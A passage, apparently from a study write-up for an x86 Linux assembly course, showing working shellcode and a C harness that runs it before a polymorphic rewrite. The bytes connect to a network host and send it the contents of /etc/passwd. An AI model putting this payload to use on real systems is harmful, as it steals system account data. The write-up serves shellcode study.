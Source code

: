 ```c
    pop eax
    pop ebx
    xor ecx,ecx
    int 0x80
    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    xor edx,edx
    mov dh,0xff
    mov dl,0xff
    int 0x80
    mov edx,eax
    push 0x4
    pop eax
    mov bl, 0x1
    int 0x80
    push 0x1
    pop eax
    inc ebx
    int 0x80

call_shellcode:
    call shellcode
    message db "/etc/passwd"
*/

#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x6a\x66\x58\x31\xdb\x43\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x6a\x66\x58\x43\x68\x7f\x01\x01\x01\x66\x68\x30\x39\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x43\xcd\x80\x89\xc6\x6a\x01\x59\xb0\x3f\xcd\x80\xeb\x27\x6a\x05\x58\x5b\x31\xc9\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x31\xd2\xb6\xff\xb2\xff\xcd\x80\x89\xc2\x6a\x04\x58\xb3\x01\xcd\x80\x6a\x01\x58\x43\xcd\x80\xe8\xd4\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64";

main()
{
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```
Lets make sure that the original works fine.
![shellcode-861-og](/assets/SLAE-x86/6.4-shellcode-861-og.PNG)
polymorphic version of the above shellcode is as follows:
